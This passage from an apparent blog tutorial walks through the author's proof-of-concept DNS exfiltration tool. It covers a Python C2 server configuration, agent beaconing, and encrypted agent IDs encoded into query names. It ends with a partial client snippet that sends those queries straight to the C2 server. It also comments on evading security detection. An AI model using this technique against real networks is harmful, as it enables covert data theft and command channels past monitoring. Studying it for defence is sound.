 ## Practice example

There is a [Github repository]([https://github.com/0z4i/DNS_exfiltration](https://github.com/0z4i/DNS_exfiltration)) developed by me, with a simple DNS server and client as a PoC to show how information exfiltration works with this network protocol. Let's break it down: the server and the agent were built on Python 3 using the modules **pycryptodome** and **dnslib**.

The client can be built with other languages or technologies, but for a quick demonstration this is created in Python, because in a real scenario a C2 agent created in Python 3 **will be detected by any security system or can't be executed if** the file is analyzed. On the other hand, the server can be in Python also in real scenarios.

Data can be stored in a DB like Mongo, but for a **quick demo,** this example stores message results in a local JSON file.

The server needs a basic configuration as the following:

```python
SERVER_PORT = 5353
SERVER_ADDRESS = "0.0.0.0"
EXPECTED_DOMAIN = "domain.local"
```

Check that **SERVER_PORT** here is 5353, because port 53 is reserved and requires root permissions, but using port 53 is possible by running the script with sudo. **SERVER_ADDRESS** uses 0.0.0.0 to catch DNS requests in all network interfaces; to catch only the local network, change it to 127.0.0.1, and finally **EXPECTED_DOMAIN** is the domain name (TLD and SLD) that the server will resolve and ignore the rest.

This configured data is used in the client to send the requests to the server. Based on a specific time interval, the client sends the callback request to the server to check for pending tasks (beaconing).

To create the callback request FQDN, the client uses an **agent_id**. This is used for the server to identify what agent session is talking with it. All the data sent to the server have an AES encryption and a base64 encoding to avoid using bad characters for the FQDN. In this specific demo scenario, this is done with this method.

The client **uses the server IP as the server resolver** because if the IP of the resolver is not specified, the request will be sent to the DNS configured in the client computer, router, or provided by the ISP by default.

> All the client request in this demo are sent as AAAA type

```python
# returns: ZG9uJ3QgZGVjcnlwdCBtZSBiaXRjaA==.domain.local

# Create FQDN for callback request

def build_callback(agent_id):
    encrypted = encrypt_string(AES_KEY, agent_id)
    request = f"{encrypted}.{DOMAIN}"

    return request
    

def send_request(request):
    timeout = 10
    q = DNSRecord.question(request, RR_TYPE)
    packet = q.pack()

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.settimeout(timeout)
    sock.sendto(packet, (SERVER, PORT))

    try:
        data, _ = sock.recvfrom(EDNS0)
        reply = DNSRecord.parse(data)
```